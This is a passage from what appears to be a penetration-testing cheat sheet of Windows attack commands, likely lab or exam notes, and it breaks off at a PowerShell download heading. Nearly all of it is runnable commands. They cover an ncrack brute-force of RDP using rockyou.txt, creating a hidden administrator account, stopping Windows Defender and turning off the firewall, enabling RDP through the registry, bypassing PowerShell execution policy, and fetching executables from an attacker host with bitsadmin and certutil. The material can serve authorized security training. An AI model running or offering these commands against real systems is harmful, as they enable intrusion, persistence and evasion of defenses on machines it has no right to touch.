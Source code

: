 #### Weak passwords

Remote desktop

```bash
ncrack -vv --user george -P /home/kali/rockyou.txt rdp://10.11.1.111
```

#### Add user and enable RDP

```bash
# Add new user

net user haxxor Haxxor123 /add
net localgroup Administrators haxxor /add
net localgroup "Remote Desktop Users" haxxor /ADD

# Turn firewall off and enable RDP

sc stop WinDefend
netsh advfirewall show allprofiles
netsh advfirewall set allprofiles state off
netsh firewall set opmode disable
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f
```

#### Powershell sudo for Windows

```bash
$pw= convertto-securestring "EnterPasswordHere" -asplaintext -force
$pp = new-object -typename System.Management.Automation.PSCredential -argumentlist "EnterDomainName\EnterUserName",$pw
$script = "C:\Users\EnterUserName\AppData\Local\Temp\test.bat"
Start-Process powershell -Credential $pp -ArgumentList '-noprofile -command &{Start-Process $script -verb Runas}'

powershell -ep Bypass -File xyz.ps1
```

#### Windows download with bitsadmin

```powershell
bitsadmin /transfer mydownloadjob /download /priority normal http://<attacker10.11.1.111>/xyz.exe C:\\Users\\%USERNAME%\\AppData\\local\\temp\\xyz.exe
```

#### Windows download with certutil.exe

```powershell
certutil.exe -urlcache -split -f "http://10.11.1.111/Powerless.bat" Powerless.bat
```

#### Windows download with powershell
